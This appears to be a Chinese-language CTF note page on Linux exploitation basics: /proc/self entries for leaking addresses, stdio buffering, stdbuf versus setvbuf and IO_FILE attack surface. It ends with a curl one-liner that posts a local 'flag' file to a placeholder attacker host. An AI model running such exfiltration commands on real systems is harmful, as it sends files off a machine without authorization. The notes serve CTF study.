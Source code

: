 

# About /proc

 * /proc/self/cwd - 当前程序路径
 * /proc/self/exe - 当前程序
 * /proc/self/maps - 内存maps，能读的话，可以从这里泄漏基址

# Buffer Mode
## Introduction
> The three types of buffering available are unbuffered, block buffered, and line buffered.
> When an output stream is unbuffered, information appears on the destination file or terminal as soon as written; when it is block buffered many characters are saved up and written as a block; when it is line buffered characters are saved up until a newline is output or input is read from any stream attached to a terminal device (typically stdin).
> The function `fflush` may be used to force the block out early.
> Normally all files are block buffered. If a stream refers to a terminal (as stdout normally does), it is line buffered. The standard error stream stderr is always unbuffered by default.

总结一下：
 * buffer有三种模式：unbuffered, block buffered, line buffered
 * unbuffered - 不缓冲，输入的字符立即输出
 * line buffered - 行缓冲，输入的字符遇到`\n`再输出
 * block buffered - 块缓冲，有时也叫全缓冲（应该是遇到EOF再输出叭）可使用`fflush`强行输出
 * stdin和stdout默认line buffered
 * stderr默认unbuffered
 * 其他文件描述符默认block buffered（打开的文件用的就是块缓冲模式）

## stdbuf
### Introduction
> Run COMMAND, with modified buffering operations for its standard streams.

这是一条linux命令，可以以指定的标准文件流缓冲模式运行命令

> 这条命令是我在[WPICTF](/没结束呢)中遇到的（getshell之后dump下来的启动脚本）

脚本内容如下：

``` bash
#!/bin/bash
exec 2> /dev/null
cd /home/ctf/
#sleep 1

./stdbuf -i 0 -o 0 -e 0 ./nanoprint
```

通过`stdbuf`命令，设置`stdin`,`stdout`和`stderr`全部为不缓冲模式，然后运行题目的程序

### Analysis

这条命令很实用啊，一般的题目是通过`setvbuf`在程序运行的开头设置缓冲模式，比如：

```c
setvbuf(stdin,0,2,0);  // 设置stdin的缓冲模式
```

显然程序中的代码越多就越有可能被利用(废话...)

如果程序中有上面这条语句，那么在程序编译后，`bss`段中将存在`stdin`指针

于是就可能存在如下利用方式：
 * heap中变量存在越界读写，可以读写stdin指针，然后篡改`IO_FILE`结构体

 * 从libc中泄漏程序基址(详见[由libc泄漏text](http://note.taqini.space/#/note/attack/leak?id=%e7%94%b1libc%e6%b3%84%e6%bc%8ftext))

然鹅，如果使用`stdbuf`命令启动程序，可以在程序运行前完成缓冲区模式的设置工作。

这样更加安全~

### Conclusion

使用`stdbuf`启动程序，可以避免程序因为使用`setvbuf`造成的相应文件IO指针出现在bss段，从而减少可被利用的点

# curl
通过curl将本地文件发送至目标服务器
``` bash
curl -v --data @flag http://your.site:2333
```
e.g. [wpictf-shell2](https://github.com/ljagiello/wpictf-2020/tree/master/linux/suckmore-shell-2.0)
